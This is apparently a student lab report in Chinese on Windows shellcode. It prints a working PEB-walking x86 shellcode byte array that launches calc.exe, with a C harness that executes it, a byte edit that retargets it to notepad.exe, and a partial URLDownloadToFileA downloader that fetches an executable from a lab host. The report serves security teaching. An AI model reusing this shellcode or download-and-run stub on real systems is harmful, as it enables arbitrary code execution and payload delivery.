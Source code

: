 

# 实验4-shellcode

## 实验要求

* 把上面这个链接中shellcode能够成功运行
* 能从汇编源码编译通过并成功dump
* 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
* 修改shellcode功能为运行记事本程序notepad. exe
* (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

## 实验环境

* windows 10
* Kali 2003
* Visual Studio

## 实验过程

### 1、运行`shellcode`示例

#### 1.1 代码

```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    //DWORD old_protect;
    //VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
    func = (int(*)()) code;
    (int)(*func)();
}
```

#### 1.2 运行结果：成功

![image-20201022140640653](/img/image-20201022140640653.png)

### 2、从汇编源码编译通过并成功dump

通过执行`nasm`和`objdump`命令可以验证。

![image-20201029140022556](/img/image-20201029140022556.png)

![image-20201029140214155](/img/image-20201029140214155.png)

### 3、PEB

#### 3.1 [PE文件结构](https://blog.csdn.net/qiming_zhang/article/details/7309909)

![](\img\pe文件框架结构.png)

#### 3.2 PEB结构

```c++
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged; //被调试状态
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```

#### 3.3 Shellcode原理

​		Shellcode实际是一段代码(也可以是填充数据)，可以用来发送到服务器，利用已存在的特定漏洞造成溢出，通称“缓冲区溢出攻击”中植入进程的代码。这段代码可以是导致常见的恶作剧目的的弹出一个消息框弹出，也可以用来删改重要文件、窃取数据、上传木马病毒并运行，甚至是出于破坏目的的格式化硬盘等等。

### 4、修改shellcode功能为运行记事本程序notepad. exe

#### 4.1 修改代码：将`calc.exe`修改为`notepad.exe`

`00 00 00 00 65 78 65 2e 63 6c 61 63`->`00 65 78 65 2e 64 61 70 65 74 6f 6e`

![image-20201029145659148](/img/image-20201029145659148.png)

#### 4.2 重新`dump`

![image-20201029150255387](/img/image-20201029150255387.png)

#### 4.3 将结果粘贴到代码里，重新运行

![image-20201029150353246](/img/image-20201029150353246.png)

### 5、修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行

#### 5.1 代码

```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "192.168.9.3:8000/workspace/shellcode.exe", "a.exe", 0, NULL);
	//CreateProcess
	//WinExec("a.exe", SW_HIDE);
}
```

报错：

![image-20201029212538113](/img/image-20201029212538113.png)

